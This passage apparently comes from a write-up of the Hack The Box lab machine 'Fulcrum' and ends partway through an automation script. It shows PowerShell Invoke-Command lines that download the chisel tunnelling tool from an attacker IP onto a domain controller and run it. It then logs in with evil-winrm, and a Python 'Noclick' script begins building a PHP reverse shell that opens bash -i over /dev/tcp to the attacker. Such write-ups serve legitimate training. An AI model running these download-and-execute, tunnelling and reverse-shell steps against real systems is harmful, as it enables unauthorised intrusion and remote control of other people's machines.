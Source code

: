 ![](../../../.gitbook/assets/htb-fulcrum-image-11.png)

To get a shell, I did the following:

```powershell
Invoke-Command -Computer dc.fulcrum.local -ScriptBlock { wget 10.10.14.19/chisel_1.7.7_windows_amd64 -O C:/Windows/Tasks/chisel.exe } -Credential $cred
Invoke-Command -Computer dc.fulcrum.local -ScriptBlock { C:/Windows/Tasks/chisel.exe client 10.10.14.19:6000 R:9999:192.168.122.130:5985 } -Credential $cred
```

Then, I can `evil-winrm` in as the `923a` user:

![](../../../.gitbook/assets/htb-fulcrum-image-12.png)

Fun box! 

## Noclick Scripts

Just made this for fun.

### Initial RCE:

```python
import threading
import http.server
import socketserver
import requests
import socket

HOST = "10.10.14.19"
PORT = 5555
FILENAME = "evil"
TARGET_HOST = "10.129.136.254"
TARGET_PORT = 56423

# 4 seconds timeout, else file not found.
socket.timeout(4)

php_rev = f"""<?php
exec("bash -c 'bash -i >& /dev/tcp/{HOST}/{PORT} 0>&1'")
?>"""
php_file = open(FILENAME + ".php", "w")
```